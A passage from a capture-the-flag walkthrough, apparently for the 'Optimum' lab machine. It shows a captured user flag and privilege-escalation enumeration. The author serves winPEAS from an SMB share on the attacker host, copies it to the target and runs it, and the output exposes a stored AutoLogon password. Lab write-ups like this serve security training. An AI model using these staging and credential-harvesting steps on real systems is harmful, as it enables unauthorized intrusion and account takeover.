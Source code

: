     
    
    PS C:\Users\kostas\Desktop> cat user.txt.txt
    d0c39409d7b994a9a1389ebf38ef5f73
    

## Shell as SYSTEM

### Enumeration - winPEAS

I started with [WinPEAS](https://github.com/carlospolop/privilege-escalation-
awesome-scripts-suite/tree/master/winPEAS) to look for escalation paths. I
cloned a copy of the repo to my host, started an SMB server in the path with
the Windows exe with `sudo smbserver.py share . -smb2support`, and copied it
to Optimum:

    
    
    PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe . 
    

Now I’ll run it with `.\winPEAS.exe`. Scanning through the output, there were
a few interesting things.

The box is Windows Server 2012 R2, and 64-bit:

    
    
        Hostname: optimum                               
        ProductName: Windows Server 2012 R2 Standard
        EditionID: ServerStandard                       
        ReleaseId:                                      
        BuildBranch:                                    
        CurrentMajorVersionNumber:                      
        CurrentVersion: 6.3                             
        Architecture: AMD64
    

There were creds for kostas:

    
    
      [+] Looking for AutoLogon credentials
        Some AutoLogon credentials were found!!
        DefaultUserName               :  kostas
        DefaultPassword               :  kdeEjDowkS*    
    

A bunch of services were called out as potentially interesting, but nothing in
there really panned out.

### Enumeration - Watson/Sherlock

One thing I noticed was not in the winPEAS output was
[Watson](https://github.com/rasta-mouse/Watson) results. Watson is a quick
checker for CVEs this Windows host might be vulnerable to, and in the original
HTB days, that was a common escalation technique (in fact, it is the intended
path on this host). My best guess as to why it didn’t run is the .NET version
required by Watson in winPEAS is 4.5, and this host only has up to 4.0:
